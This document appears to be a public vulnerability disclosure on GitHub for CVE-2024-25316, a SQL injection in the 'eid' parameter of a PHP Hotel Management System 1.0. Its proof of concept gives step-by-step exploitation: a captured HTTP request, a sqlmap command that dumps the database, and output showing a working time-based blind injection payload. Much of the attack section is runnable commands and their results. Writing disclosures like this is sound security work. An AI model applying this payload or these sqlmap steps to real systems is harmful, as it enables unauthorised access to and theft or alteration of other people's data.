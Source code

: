 # CVE-2024-25316 - Hotel Managment System - SQL Injection-4
+ *Exploit Title:* Hotel Managment System - SQL Injection-4
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-25316

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'eid' parameter in Hotel/admin/usersettingdel.php?eid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/usersetting.php
+ Click delete user button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/usersettingdel.php?eid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```
+ Use sqlmap to exploit. In sqlmap, use 'eid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p eid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: eid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=2' AND (SELECT 4449 FROM (SELECT(SLEEP(5)))GoxS)-- fWtv
---
[19:08:46] [INFO] the back-end DBMS is MySQL
[19:08:46] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:08:51] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[19:08:51] [INFO] retrieved: 
[19:09:01] [INFO] adjusting time delay to 1 second due to good response times
hotel
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 031013](https://github.com/tubakvgc/CVEs/assets/74067343/e8e7751f-27fc-4365-9d95-400ddc67b351)





  
